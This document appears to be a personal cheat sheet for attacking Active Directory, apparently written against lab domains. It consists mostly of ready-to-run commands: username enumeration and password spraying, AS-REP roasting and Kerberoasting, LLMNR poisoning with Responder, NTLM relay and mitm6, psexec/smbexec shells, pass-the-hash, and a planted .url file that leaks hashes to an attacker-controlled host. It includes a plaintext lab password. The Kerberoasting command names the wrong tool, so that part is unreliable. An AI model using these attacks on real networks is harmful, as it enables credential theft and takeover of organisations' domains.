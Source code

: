 <h1> Kerbrute </h1><br>
Only do usernames as to not lockout users <br>
Located in my downloads <br>
./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.103.225 users.txt <br>
<br>
<h1> Query Ticket auth with no password </h1><br>
take valid usernames from kerbrute and place into new user file <br>
sudo python3 /home/kali/impacket/examples/GetNPUsers.py -dc-ip 10.10.103.225 spookysec.local/ -usersfile users.txt -format john -outputfile hashes <br>
cat hashes - look for any usernames with hashes here to crack <br>
<br>
To crack this with hashcat, you need to add a 23 to the hash between rep and name - so e.g $krb5asrep$23$asdas - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat<br>
hashcat mode -m 18200 <br>
<h1> Username grabbing via NULL session </h1> <br>
enum4linux -U DCIP  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" <br>
crackmapexec smb 172.16.5.5 --users <br>
Can now spray passwords with kerbrute - kerbrute passwordspray -d domain --dc IP validusers.txt Welcome1
<br>

<h1>LLMNR Poisoning</h1><br>
fallback with share that is unknown, device reaches out with broadcast to see if any device knows the share, malicious machine asks for hash to direct user <br>
<br>
Responder is used to capture the hashes (type locate responder to find the path) - python3 responder.py -I eth0 -rdwv <br>
Run tool first thing in morning on a pen test and right after lunch <br>
<br>
Next you'll want to crack the hashes - Hashcat runs better on normal PC and not VM due to using GPU. Copy whole hash, add to text file.
<br>
hashcat -m 5600 file.txt rockyou.txt --force ------  -m 5600 stands for AD hash NetNTLMv2 <br>
<br>
<h1>SMB Relay</h1><br>
Instead of cracking hashes from responder, can relay hashes to another machine. SMB signing has to be disabled on the target and relayed creds must be admin on machine.<br>
<b> to work have to go to responder.conf and turn off SMB and HTTP</b> <br>
Run Responder.py and also now configure ntlmrelayx.py (locate ntlmrelay) python3 ntlmrelayx.py -tf targets.txt -smb2support <br>
<br>
Can gain shell access with pw - run psexec (metasploit module) - need domain, user and pass, may need to try the module several times <br>
Could also use - sudo python3 smbexec.py domain/username:'password'@IP <br>
Or psexec.py domain/username:password@IP <br>
<br>
<h1>Pass Back Attack </h1> <br>
This is an LDAP attack (anything that uses LDAP to connect to AD such as printers) <br>
on LDAP server address within the settings configuration if you change the IP address of the LDAP server to your machine and setup a listerner (responder or netcat) the password will be sent over in cleartext
<br>
<br>
<h1> Force Hashes </h1> <br>
If you already have a user account and can write to a share that has alot of popularity, you can create a file that uses a fake icon file linking back to your IP running responder <br>
name the file "@something.url" and include contents <br>
[InternetShortcut]
URL=https://securify.nl
IconIndex=0
IconFile=\\<responder ip>\leak\leak.ico<br>
  run responder and anyone who visits share will send hash<br>

<h1> MITM6 </h1> <br>
github.com/got-it/mitm6 <br>
mitm6 -I eth0 -d domain.local <br>
Now setup relay attack with ntlmrelayx - ntlmrelayx.py -6 -t ldaps://domainip -wh fakewpad.domain.local -l lootme <br>

<h1>Further strats </h1><br>
Look for web portals that may have default creds, anything on there that shows AD creds? <br>
Check GPO's or hardcoded creds within XML files etc <br>
Look on printers <br>

<h1> Post exploitation <h1><br>
  <h2> Domain Enumeration with Powershell </h2> <br>
  . .\PowerView.ps1 (enter) <br>
  Get-NetDomain (enter)<br>
  Get-DomainPolicy<br>
  Get-NetUser (sometimes passwords are placed in Description) -- Get-NetUser | select description<br>
  
  <h1> Pass the password </h1><br>
  crackmapexec smb IP/CIDR -u user -d domain -p password <br>
  This will loop through the IPs specified to see what devices the user can authenticate against. <br>
  <br>
  
  <h1> Pass the Hash </h1><br>
  Crackmapexec IP -u username -H hash --local-auth <br>
  <br>
  <h1> Find valid Domain Admins with lower account </h1> <br>
  python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
  
 <br>
  <h1> Secrets Dump </h1> <br>
  Any machine that allows login via SMB perform a secrets dump on the machine to dump out the local hashes should the account be a administrator <br>

  <br>
  
  <h1> Kerboeroasting </h1><br>
  Goal here is to get a TGS (Service Ticket) to decrypt servers account hash<br>
  python3 /home/kali/impacket/examples/GetNPUsers.py domain/username:password -dc-ip IP -request <br>
  Hashcat -m 13100 textfile.txt wordlist.txt <br>
  <br>



